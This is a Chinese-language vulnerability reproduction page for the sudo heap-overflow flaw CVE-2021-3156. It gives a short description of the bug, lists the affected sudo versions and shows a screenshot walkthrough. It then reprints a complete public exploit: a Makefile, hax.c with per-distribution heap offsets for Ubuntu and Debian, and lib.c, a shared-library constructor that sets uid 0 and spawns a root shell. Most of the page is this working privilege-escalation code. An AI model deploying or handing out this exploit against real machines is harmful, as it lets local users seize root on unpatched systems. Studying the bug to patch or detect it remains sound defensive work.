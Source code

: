 # Linux sudo权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```

## 漏洞复现

目前POC已经在Github公开：[Linux sudo权限提升漏洞 CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627098472921-85639abb-364c-4fed-929d-1739cb4128cb.png)

当前可以验证的Linux环境为

```
 Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31  Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
```

**这里使用腾讯云中的Ubuntu镜像进行复现**

[![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627098472850-197fab3c-2c70-48af-969c-e0f4108abe55.png)]()

使用命令

[![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627098472851-ffe05143-de53-4d3d-8607-d825a9f9d76c.png)]()

[![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627098473043-7c4d517c-465d-4261-a02d-549b7e8436c8.png)]()

## 漏洞利用POC

一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus

**Makefile**

```c
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
brute: all
	gcc -DBRUTE -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```

**hax.c**

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512
#define SUDOEDIT_PATH "/usr/bin/sudoedit"

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    fprintf(stdout,
        "  usage: %s <target>\n\n"
        "  available targets:\n"
        "  ------------------------------------------------------------\n",
        prog
    );
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    fprintf(stdout,
        "  ------------------------------------------------------------\n"
        "\n"
        "  manual mode:\n"
        "    %s <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>\n"
        "\n",
        prog
    );
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2 && argc != 5) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = NULL;
    if (argc == 2) {
        int target_idx = atoi(argv[1]);

        if (target_idx < 0 || target_idx >= (sizeof(targets) / sizeof(target_t))) {
            fprintf(stderr, "invalid target index\n");
            return -1;
        }

        target = &targets[ target_idx ];
    }  else {
        target = malloc(sizeof(target_t));
        target->target_name    = "Manual";
        target->sudoedit_path  = SUDOEDIT_PATH;
        target->smash_len_a    = atoi(argv[1]);
        target->smash_len_b    = atoi(argv[2]);
        target->null_stomp_len = atoi(argv[3]);
        target->lc_all_len     = atoi(argv[4]);
    }

    printf(
        "using target: %s ['%s'] (%d, %d, %d, %d)\n", 
        target->target_name,
        target->sudoedit_path,
        target->smash_len_a,
        target->smash_len_b,
        target->null_stomp_len,
        target->lc_all_len
    );

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```

**lib.c**

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
#ifndef BRUTE
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
#endif
}
```